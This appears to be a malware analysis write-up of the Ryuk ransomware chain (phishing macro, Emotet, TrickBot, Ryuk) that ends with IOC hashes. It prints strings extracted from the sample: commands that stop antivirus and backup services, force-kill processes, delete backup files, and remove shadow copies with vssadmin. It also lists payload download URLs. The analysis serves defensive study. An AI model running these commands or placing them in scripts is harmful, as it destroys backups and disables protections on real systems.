

# Ryuk

##  Attack Chain

## 0x01 Phishing Email


## 0x02 Macro in Weaponized Word Doc launches PowerShell

### launches PowerShell
```bash
zero@ubuntu:~/Desktop$ python oledump.py -s 9 -v May_01_2019.doc |grep in32_Process
Set VcAAXDD = K_QDQDD(GetObject("w" + "inmgmts:W" + "in32_Process" + "Sta" + "rtup"))
Set BkwABAAD = K_QDQDD(GetObject("w" + "inmgmts:W" + "in32_Process"))
```


## 0x03 Command Line




## 0x04 Poweshell Downloads Emotet


| URLs                                                         |    Payload     | SHA256                                                       |
| ------------------------------------------------------------ | :------------: | ------------------------------------------------------------ |
| [http://webaphobia.com/images/72Ca/](http://webaphobia.com/images/72Ca/) |      N/A       | N/A                                                          |
| https://montalegrense.graficosassociados.com/keywords/FOYo/  |      N/A       | N/A                                                          |
| http://purimaro.com/1/ww/                                    | DropCypher.exe | 30bb20ed402afe7585bae4689f75e0e90e6d6580a229042c3a51eecefc153db7 |
| http://jpmtech.com/css/GOOvqd/                               | DropCypher.exe | 2c9b8ed7cb7ce9b49579453283292ddf478c6ab2953b66c27aac8dfc84c6fb2b |
| http://118.89.215.166/wp-includes/l5/                        | DropCypher.exe | 21145645cac74e0b590813eafd257a2c4af6c6be0bc86d873ad0e6c005c0911d |

## 0x05 Emotet
The PowerShell instance attempts to download the Emotet payload from different malicious domains. It names the payload 379.exe (SHA1: B521fe7ff72e68165ff767d7dfa868e105d5de8b) and executes it, next emotet will download trickbot and executes it.

The process tree of Emotet delivering TrickBot 


## 0x06 Trickbot
$ shasum -a 256 trickbot.exe
32c58040d3d6ec5305a1a0ebb48ba05aebe3ac2f905a7f152f32fc9170e16711 trickbot.exe

Doing.....


## 0x07 Ryuk


### When the drop operation is successful, TFHtY.exe will delete ryuk.exe


### Change the registry

 
 
### [SE_DEBUG_NAME TEXT("SeDebugPrivilege") Required to debug and adjust the memory of a process owned by another account](https://docs.microsoft.com/en-us/search/?search=SeDebugPrivilege&scope=Desktop)，And an OpenProcess operation that specifies write permission(inject) to an arbitrary process (including system security processes and service processes),as long as the current process has SeDeDebug permission.
 

### Set all running process Identifier is 1 or 2
- If domain name of the user of the process which is "NT AUTHORITY",the process identifier is set to 2
- Other, set to 1


### Ryuk ignores csrss.exe|explorer.ex|lsaas.exe process


### How to inject other process?
- Open target process
- Use VirtualAllocEx() to allocate memory for target process
- Write malicious process to allocate memory using WriteProcessMemory()
- Create a new thread using CreateRemoteThread() to run malicious thread at the injected process


### Stop server list
```
$ strings TFHtY.bin | grep stop
stop "Acronis VSS Provider" /y
stop "Enterprise Client Service" /y
stop "Sophos Agent" /y
stop "Sophos AutoUpdate Service" /y
stop "Sophos Clean Service" /y
stop "Sophos Device Control Service" /y
stop "Sophos File Scanner Service" /y
stop "Sophos Health Service" /y
stop "Sophos MCS Agent" /y
stop "Sophos MCS Client" /y
stop "Sophos Message Router" /y
stop "Sophos Safestore Service" /y
stop "Sophos System Protection Service" /y
stop "Sophos Web Control Service" /y
stop "SQLsafe Backup Service" /y
stop "SQLsafe Filter Service" /y
stop "Symantec System Recovery" /y
stop "Veeam Backup Catalog Data Service" /y
stop AcronisAgent /y
stop AcrSch2Svc /y
stop Antivirus /y
stop ARSM /y
stop BackupExecAgentAccelerator /y
stop BackupExecAgentBrowser /y
stop BackupExecDeviceMediaService /y
stop BackupExecJobEngine /y
stop BackupExecManagementService /y
stop BackupExecRPCService /y
stop BackupExecVSSProvider /y
stop bedbg /y
stop DCAgent /y
stop EPSecurityService /y
stop EPUpdateService /y
stop EraserSvc11710 /y
stop EsgShKernel /y
stop FA_Scheduler /y
stop IISAdmin /y
stop IMAP4Svc /y
stop macmnsvc /y
stop masvc /y
stop MBAMService /y
stop MBEndpointAgent /y
stop McAfeeEngineService /y
stop McAfeeFramework /y
stop McAfeeFrameworkMcAfeeFramework /y
stop McShield /y
stop McTaskManager /y
stop mfemms /y
stop mfevtp /y
stop MMS /y
stop mozyprobackup /y
stop MsDtsServer /y
stop MsDtsServer100 /y
stop MsDtsServer110 /y
stop MSExchangeES /y
stop MSExchangeIS /y
stop MSExchangeMGMT /y
stop MSExchangeMTA /y
stop MSExchangeSA /y
stop MSExchangeSRS /y
stop MSOLAP$SQL_2008 /y
stop MSOLAP$SYSTEM_BGC /y
stop MSOLAP$TPS /y
stop MSOLAP$TPSAMA /y
stop MSSQL$BKUPEXEC /y
stop MSSQL$ECWDB2 /y
stop MSSQL$PRACTICEMGT /y
stop MSSQL$PRACTTICEBGC /y
stop MSSQL$PROFXENGAGEMENT /y
stop MSSQL$SBSMONITORING /y
stop MSSQL$SHAREPOINT /y
stop MSSQL$SQL_2008 /y
stop MSSQL$SYSTEM_BGC /y
stop MSSQL$TPS /y
stop MSSQL$TPSAMA /y
stop MSSQL$VEEAMSQL2008R2 /y
stop MSSQL$VEEAMSQL2012 /y
stop MSSQLFDLauncher /y
stop MSSQLFDLauncher$PROFXENGAGEMENT /y
stop MSSQLFDLauncher$SBSMONITORING /y
stop MSSQLFDLauncher$SHAREPOINT /y
stop MSSQLFDLauncher$SQL_2008 /y
stop MSSQLFDLauncher$SYSTEM_BGC /y
stop MSSQLFDLauncher$TPS /y
stop MSSQLFDLauncher$TPSAMA /y
stop MSSQLSERVER /y
stop MSSQLServerADHelper100 /y
stop MSSQLServerOLAPService /y
stop MySQL80 /y
stop MySQL57 /y
stop ntrtscan /y
stop OracleClientCache80 /y
stop PDVFSService /y
stop POP3Svc /y
stop ReportServer /y
stop ReportServer$SQL_2008 /y
stop ReportServer$SYSTEM_BGC /y
stop ReportServer$TPS /y
stop ReportServer$TPSAMA /y
stop RESvc /y
stop sacsvr /y
stop SamSs /y
stop SAVAdminService /y
stop SAVService /y
stop SDRSVC /y
stop SepMasterService /y
stop ShMonitor /y
stop Smcinst /y
stop SmcService /y
stop SMTPSvc /y
stop SNAC /y
stop SntpService /y
stop sophossps /y
stop SQLAgent$BKUPEXEC /y
stop SQLAgent$ECWDB2 /y
stop SQLAgent$PRACTTICEBGC /y
stop SQLAgent$PRACTTICEMGT /y
stop SQLAgent$PROFXENGAGEMENT /y
stop SQLAgent$SBSMONITORING /y
stop SQLAgent$SHAREPOINT /y
stop SQLAgent$SQL_2008 /y
stop SQLAgent$SYSTEM_BGC /y
stop SQLAgent$TPS /y
stop SQLAgent$TPSAMA /y
stop SQLAgent$VEEAMSQL2008R2 /y
stop SQLAgent$VEEAMSQL2012 /y
stop SQLBrowser /y
stop SQLSafeOLRService /y
stop SQLSERVERAGENT /y
stop SQLTELEMETRY /y
stop SQLTELEMETRY$ECWDB2 /y
stop SQLWriter /y
stop SstpSvc /y
stop svcGenericHost /y
stop swi_filter /y
stop swi_service /y
stop swi_update_64 /y
stop TmCCSF /y
stop tmlisten /y
stop TrueKey /y
stop TrueKeyScheduler /y
stop TrueKeyServiceHelper /y
stop UI0Detect /y
stop VeeamBackupSvc /y
stop VeeamBrokerSvc /y
stop VeeamCatalogSvc /y
stop VeeamCloudSvc /y
stop VeeamDeploymentService /y
stop VeeamDeploySvc /y
stop VeeamEnterpriseManagerSvc /y
stop VeeamMountSvc /y
stop VeeamNFSSvc /y
stop VeeamRESTSvc /y
stop VeeamTransportSvc /y
stop W3Svc /y
stop wbengine /y
stop WRSVC /y
stop MSSQL$VEEAMSQL2008R2 /y
stop SQLAgent$VEEAMSQL2008R2 /y
stop VeeamHvIntegrationSvc /y
stop swi_update /y
stop SQLAgent$CXDB /y
stop SQLAgent$CITRIX_METAFRAME /y
stop "SQL Backups" /y
stop MSSQL$PROD /y
stop "Zoolz 2 Service" /y
stop MSSQLServerADHelper /y
stop SQLAgent$PROD /y
stop msftesql$PROD /y
stop NetMsmqActivator /y
stop EhttpSrv /y
stop ekrn /y
stop ESHASRV /y
stop MSSQL$SOPHOS /y
stop SQLAgent$SOPHOS /y
stop AVP /y
stop klnagent /y
stop MSSQL$SQLEXPRESS /y
stop SQLAgent$SQLEXPRESS /y
stop wbengine /y
stop kavfsslp /y
stop KAVFSGT /y
stop KAVFS /y
stop mfefire /y
```

### Kill Process
```
$ strings TFHtY.bin | grep /IM
/IM zoolz.exe /F
/IM agntsvc.exe /F
/IM dbeng50.exe /F
/IM dbsnmp.exe /F
/IM encsvc.exe /F
/IM excel.exe /F
/IM firefoxconfig.exe /F
/IM infopath.exe /F
/IM isqlplussvc.exe /F
/IM msaccess.exe /F
/IM msftesql.exe /F
/IM mspub.exe /F
/IM mydesktopqos.exe /F
/IM mydesktopservice.exe /F
/IM mysqld.exe /F
/IM mysqld-nt.exe /F
/IM mysqld-opt.exe /F
/IM ocautoupds.exe /F
/IM ocomm.exe /F
/IM ocssd.exe /F
/IM onenote.exe /F
/IM oracle.exe /F
/IM outlook.exe /F
/IM powerpnt.exe /F
/IM sqbcoreservice.exe /F
/IM sqlagent.exe /F
/IM sqlbrowser.exe /F
/IM sqlservr.exe /F
/IM sqlwriter.exe /F
/IM steam.exe /F
/IM synctime.exe /F
/IM tbirdconfig.exe /F
/IM thebat.exe /F
/IM thebat64.exe /F
/IM thunderbird.exe /F
/IM visio.exe /F
/IM winword.exe /F
/IM wordpad.exe /F
/IM xfssvccon.exe /F
/IM tmlisten.exe /F
/IM PccNTMon.exe /F
/IM CNTAoSMgr.exe /F
/IM Ntrtscan.exe /F
/IM mbamtray.exe /F
``` 

### Delete Back
```
$ strings TFHtY.bin | grep vssadmin &  strings TFHtY.bin | grep del
 
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
del /s /f /q d:\*.VHD d:\*.bac d:\*.bak d:\*.wbcat d:\*.bkf d:\Backup*.* d:\backup*.* d:\*.set d:\*.win d:\*.dsk
del /s /f /q e:\*.VHD e:\*.bac e:\*.bak e:\*.wbcat e:\*.bkf e:\Backup*.* e:\backup*.* e:\*.set e:\*.win e:\*.dsk
del /s /f /q f:\*.VHD f:\*.bac f:\*.bak f:\*.wbcat f:\*.bkf f:\Backup*.* f:\backup*.* f:\*.set f:\*.win f:\*.dsk
del /s /f /q g:\*.VHD g:\*.bac g:\*.bak g:\*.wbcat g:\*.bkf g:\Backup*.* g:\backup*.* g:\*.set g:\*.win g:\*.dsk
del /s /f /q h:\*.VHD h:\*.bac h:\*.bak h:\*.wbcat h:\*.bkf h:\Backup*.* h:\backup*.* h:\*.set h:\*.win h:\*.dsk
del %0

vssadmin Delete Shadows /all /quiet
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded
vssadmin Delete Shadows /all /quiet

```

### Encryption Process
#### Avoid encrypting file type
dll、lnk、hrmlog、ini、exe


#### RSA


#### Avoid encrypting file twice


### RyukReadMe.txt


## IOC


| Name  |    sha256 |
| ----------| :------------: | 
| Ryuk|      23f8aa94ffb3c08a62735fe7fee5799880a8f322ce1d55ec49a13a3f85312db2       |
| Ryuk Dropper |     5d92914acdfb551c237866cc4cce6c80aeeeb695e52beecd2613694302c62271   | 


